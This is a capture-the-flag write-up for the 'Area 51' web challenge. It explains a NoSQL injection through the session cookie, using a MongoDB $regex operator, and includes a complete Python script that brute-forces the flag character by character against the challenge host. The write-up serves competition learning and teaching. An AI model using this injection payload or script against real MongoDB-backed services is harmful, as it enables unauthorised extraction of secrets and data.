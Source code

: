 # Area 51
## Description
Area51 Raid Luxury Consultation Services

https://area51.chall.pwnoh.io
## Author
rene
## Resources
`dist.zip` - source code
## Solution
0. By auditing the source code, we can find that program use `mongodb` to communicate with database (so-call `nosql`).
1. Then there are two places we can try to do `nosql injection`: under `api/login` and `/`.
2. Due to the restriction of `if (username && password && typeof username === 'string' && typeof password === 'string') {`, we can't do injection in here.
3. However under `/`, there is no restriction. Therefore, we can pass `{"token": {"$regex": "^bctf{"}}` to `session` in order to leak the flag char by char (If the regex hit, the router will redirect us to `dashborard`, if not, we will go to `index`). [reference in hackertricks](https://book.hacktricks.xyz/pentesting-web/nosql-injection#extract-data-information)
4. Done!  

final solve script:  
```python
import requests, json
from string import digits, ascii_letters

# add payload as session cookie
s = requests.Session()
flag = "bctf{"
while not flag.endswith("}"):
    found = False
    for i in digits + ascii_letters + "_{}":
        s.cookies["session"] = json.dumps({"token": {"$regex":  "^" + flag +i}})
        print(s.cookies["session"])
        r = s.get("https://area51.chall.pwnoh.io/")
        if "Pardon our dust" in r.text:
            # if redirected to dashboard
            flag += i
            found = True
            break
        elif not "Area51 Luxury Services" in r.text:
            # if not redirected to index, it maybe some UB on server (e.g. rate limit or server dead).
            print(flag)
            print(r.text)
            raise Exception("Error")
    if not found:
        print("Panic!!! not found flag")
        break
# {"token": {"$regex": "^bctf{tH3yR3_Us1nG_Ch3M1CaS_T0_MaK3_Th3_F0gS_GAy}"}}
# bctf{tH3yR3_Us1nG_Ch3M1CaS_T0_MaK3_Th3_F0gS_GAy}
print(flag)
```
